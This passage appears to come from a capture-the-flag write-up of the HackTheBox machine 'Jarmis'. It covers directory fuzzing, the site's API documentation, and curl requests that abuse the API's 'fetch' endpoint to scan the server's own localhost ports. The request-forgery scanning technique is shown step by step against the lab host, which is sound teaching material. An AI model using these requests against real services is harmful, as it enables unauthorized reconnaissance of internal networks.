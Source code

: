     [####################] - 1m     29999/29999   336/s   http://jarmis.htb/api
    [####################] - 1m     29999/29999   340/s   http://jarmis.htb/static
    [####################] - 1m     29999/29999   338/s   http://jarmis.htb/static/css
    [####################] - 1m     29999/29999   340/s   http://jarmis.htb/static/js
    

I noticed `/api` above, and could fuzz that.

`/docs` is interesting. The rest is likely just static stuff.

#### /docs

This site gives documentation about the API:

[
![image-20210922165959390](https://0xdfimages.gitlab.io/img/image-20210922165959390.png)
](https://0xdfimages.gitlab.io/img/image-20210922165959390.png)

[_Click for full
image_](https://0xdfimages.gitlab.io/img/image-20210922165959390.png)

The first one takes an ID and returns an JARM, just like I observed on the
front page.

`signature` takes a string and an optional `max_results`:

![image-20210922170411414](https://0xdfimages.gitlab.io/img/image-20210922170411414.png)

`fetch` gives a bit more information:

![image-20210922170122847](https://0xdfimages.gitlab.io/img/image-20210922170122847.png)

“grab metadata if malicious” is interesting. That sounds more like a
connection, not just handshake and close.

### Localhost TLS Port Scan

Using the `fetch` endpoint, I can scan the local machine for open ports:

    
    
    oxdf@parrot$ curl http://jarmis.htb/api/v1/fetch?endpoint=http://localhost:20
    {"sig":"00000000000000000000000000000000000000000000000000000000000000", "endpoint":"null","note":"localhost"} 
    oxdf@parrot$ curl http://jarmis.htb/api/v1/fetch?endpoint=http://localhost:21
    {"sig":"00000000000000000000000000000000000000000000000000000000000000", "endpoint":"null","note":"localhost"}
    oxdf@parrot$ curl http://jarmis.htb/api/v1/fetch?endpoint=http://localhost:22
    {"sig":"00000000000000000000000000000000000000000000000000000000000000", "endpoint":"127.0.0.1:22","note":"localhost"}
    oxdf@parrot$ curl http://jarmis.htb/api/v1/fetch?endpoint=http://localhost:23
    {"sig":"00000000000000000000000000000000000000000000000000000000000000", "endpoint":"null","note":"localhost"}
    oxdf@parrot$ curl http://jarmis.htb/api/v1/fetch?endpoint=http://localhost:80
    {"sig":"00000000000000000000000000000000000000000000000000000000000000", "endpoint":"127.0.0.1:80","note":"localhost"} 
    oxdf@parrot$ curl http://jarmis.htb/api/v1/fetch?endpoint=http://localhost:81
    {"sig":"00000000000000000000000000000000000000000000000000000000000000", "endpoint":"null","note":"localhost"}
    